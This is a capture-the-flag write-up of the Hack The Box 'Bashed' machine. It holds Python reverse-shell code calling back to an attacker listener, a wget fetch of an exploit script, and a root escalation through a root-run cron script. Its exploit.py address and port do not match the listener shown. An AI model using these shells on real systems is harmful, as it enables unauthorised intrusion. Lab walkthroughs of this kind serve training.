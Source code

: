 ## ------------------>> Bashed <<---------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.68 -p-
----------

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-20 19:50 EDT
    Nmap scan report for 10.10.10.68
    Host is up (0.17s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Arrexel's Development Site

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 579.17 seconds

// Navigate to http://10.10.10.68/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Bashed/1.png)

// Lets search for some directories or files with [dirsearch]()

    $ python3 dirsearch.py -u http://10.10.10.68/ -t 150
------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 150 | Wordlist size: 10903

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.68/_21-08-20_19-55-15.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-08-20_19-55-15.log

    Target: http://10.10.10.68/

    ...
    [19:55:25] 200 -    8KB - /about.html
    [19:55:30] 200 -    0B  - /config.php
    [19:55:30] 200 -    8KB - /contact.html
    [19:55:31] 200 -    1KB - /dev/
    [19:55:33] 200 -    2KB - /images/
    [19:55:33] 200 -    8KB - /index.html
    [19:55:33] 200 -    3KB - /js/
    [19:55:35] 200 -  939B  - /php/
    [19:55:37] 403 -  300B  - /server-status/
    [19:55:40] 200 -   14B  - /uploads/

// we got some interesting directories the most interesting its /dev/

// Navigate to http://10.10.10.68/dev/

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Bashed/2.png)

// Clicking on 'phpbash.php' gives us a webshell ! and user flag !

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Bashed/3.png)

### ----Privelleges Escalation-------

// After verify we got python on the target system

    www-data@bashed:/var/www/html/dev# which python

    /usr/bin/python

// We can get a better shell with python(from [here](https://www.pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

// First open a listiner

    $nc -lvnp 1444
    listening on [any] 1444 ...
------

    $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.244",1444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

// And we got a shell

    $ nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.244] from (UNKNOWN) [10.10.10.68] 58676
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
// Checking which sudo permission have www-data we can see that he can run scriptmanager

    $ sudo -u scriptmanager /bin/bash

    id
    uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)

// Now we got shell as scriptmanager, searching the system i found directory called 'scripts' that its user own in '/'

    $ pwd
    /

    $ ls -al
    total 88
    ...
    drwxr-xr-x  18 root          root            500 Aug 20 16:49 run
    drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
    drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
    drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
    ...

    $ cd scripts

    $ ls
    test.py
    test.txt

// In /scripts we have 2 files (test.py & test.txt)

    $ cat test.py
    f = open("test.txt", "w")
    f.write("testing 123!")
    f.close

    $ cat test.txt
    testing 123!

// Checking for file permissions we can see that root own test.txt file

    $ ls -al
    total 16
    drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
    drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
    -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
    -rw-r--r--  1 root          root            12 Aug 20 17:33 test.txt

// Also checking after few minutes i can see that file is modify himself

    $ ls -al
    total 16
    drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
    drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
    -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
    -rw-r--r--  1 root          root            12 Aug 20 17:33 test.txt
    $ ls -al
    total 16
    drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
    drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
    -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
    -rw-r--r--  1 root          root            12 Aug 20 17:35 test.txt

// Lets try to modify the test.py file to give us a shell as root

// first we will make reverse shell file with python(found one [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

    $ cat exploit.py

    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.24",1337)) //change this
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
    
// For upload the file we will open http python server

    $ python3 -m http.server 9001
    Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...

// Open a listiner in another terminal

    $nc -lvnp 1445
    listening on [any] 1445 ...

// And upload the exploit.py with wget command

    $ wget http://10.10.16.244:9001/exploit.py

// Wait a few seconds, and we got a root shell and the flag !

    $ nc -lvnp 1445
    
    listening on [any] 1445 ...
    connect to [10.10.16.244] from (UNKNOWN) [10.10.10.68] 48982
    /bin/sh: 0: can't access tty; job control turned off
    # id 
    uid=0(root) gid=0(root) groups=0(root)
    # cat root/root.txt    
    cat: root/root.txt: No such file or directory
    # cat /root/root.txt
    cc4f0afe....................

